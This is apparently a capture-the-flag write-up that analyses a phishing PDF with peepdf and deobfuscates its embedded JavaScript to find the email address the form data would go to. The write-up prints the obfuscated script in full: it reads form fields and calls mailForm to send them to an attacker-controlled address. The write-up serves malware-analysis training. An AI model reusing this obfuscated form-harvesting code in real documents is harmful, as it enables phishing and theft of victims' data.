

# The Phish Tank - 3b
> An additional email sent from that same suspicious IP address contained an attached PDF document. The user who opened this document started to fill out the form, but became suspicious and reported it to Snowpoint’s security team instead of hitting the submit button.

> The Snowpoint security team would like you to download the attached PDF document and determine what would happen if the submit button was clicked.

> Where would the sensitive information provided in the form be sent?

> Flag format: email address. Example: icsjwgctf@gmail.com

## About the Challenge
We need to do reverse engineering on a PDF file to obtain the email (Sorry, I can't provide you the file, because its a malware)

## How to Solve?
First, im using static-analysis approach to find the flag and then using [peepdf](https://github.com/jesparza/peepdf). Here is the command I used

```shell
python2 peepdf.py -f /home/kali/Downloads/download.pdf -i
```


As you can see, there is malicious elements such as Javascripts in objects 4 and 5. And if we check the object using this command

```
object 4
```


And then there is an obfuscated javascript file like this

```javascript
var c80ac4f9c2=this.getField(function(){var r=Array.prototype.slice.call(arguments),t=r.shift();return r.reverse().map((function(r,o){return String.fromCharCode(r-t-1-o)})).join("")}(33,137,150,151)+995..toString(36).toLowerCase()+function(){var r=Array.prototype.slice.call(arguments),t=r.shift();return r.reverse().map((function(r,o){return String.fromCharCode(r-t-25-o)})).join("")}(28,156,163,150)),feddc07405=function(){var r=Array.prototype.slice.call(arguments),t=r.shift();return r.reverse().map((function(r,o){return String.fromCharCode(r-t-14-o)})).join("")}(14,134)+30..toString(36).toLowerCase()+function(){var r=Array.prototype.slice.call(arguments),t=r.shift();return r.reverse().map((function(r,o){return String.fromCharCode(r-t-38-o)})).join("")}(4,154)+1137788359..toString(36).toLowerCase()+16..toString(36).toLowerCase().split("").map((function(r){return String.fromCharCode(r.charCodeAt()+-39)})).join("")+function(){var r=Array.prototype.slice.call(arguments),t=r.shift();return r.reverse().map((function(r,o){return String.fromCharCode(r-t-40-o)})).join("")}(36,176,186,174,179)+598116..toString(36).toLowerCase()+30..toString(36).toLowerCase().split("").map((function(r){return String.fromCharCode(r.charCodeAt()+-71)})).join("")+921..toString(36).toLowerCase()+function(){var r=Array.prototype.slice.call(arguments),t=r.shift();return r.reverse().map((function(r,o){return String.fromCharCode(r-t-57-o)})).join("")}(0,174,154),b15d02c677=this.getField(32788..toString(36).toLowerCase()+function(){var r=Array.prototype.slice.call(arguments),t=r.shift();return r.reverse().map((function(r,o){return String.fromCharCode(r-t-56-o)})).join("")}(25,198,194,201,196)+13..toString(36).toLowerCase()),run=0;1==run&&this.mailForm(!1,feddc07405,"","",c80ac4f9c2,b15d02c677);
```

Im using some of the deobfuscator javascript tools online like this [one](https://lelinhtinh.github.io/de4js/) but the result is not i good. So I decided to execute the Javascript code manually on my browser console to obtain the email address

```javascript
var feddc07405=function(){var r=Array.prototype.slice.call(arguments),t=r.shift();return r.reverse().map((function(r,o){return String.fromCharCode(r-t-14-o)})).join("")}(14,134)+30..toString(36).toLowerCase()+function(){var r=Array.prototype.slice.call(arguments),t=r.shift();return r.reverse().map((function(r,o){return String.fromCharCode(r-t-38-o)})).join("")}(4,154)+1137788359..toString(36).toLowerCase()+16..toString(36).toLowerCase().split("").map((function(r){return String.fromCharCode(r.charCodeAt()+-39)})).join("")+function(){var r=Array.prototype.slice.call(arguments),t=r.shift();return r.reverse().map((function(r,o){return String.fromCharCode(r-t-40-o)})).join("")}(36,176,186,174,179)+598116..toString(36).toLowerCase()+30..toString(36).toLowerCase().split("").map((function(r){return String.fromCharCode(r.charCodeAt()+-71)})).join("")+921..toString(36).toLowerCase()+function(){var r=Array.prototype.slice.call(arguments),t=r.shift();return r.reverse().map((function(r,o){return String.fromCharCode(r-t-57-o)})).join("")}(0,174,154)
console.log(feddc07405)
```

So, the flag was located in `feddc07405` variable and we need to print the `feddc07405` variable to be able to read the flag



```
jupiter47@galactic.plat
```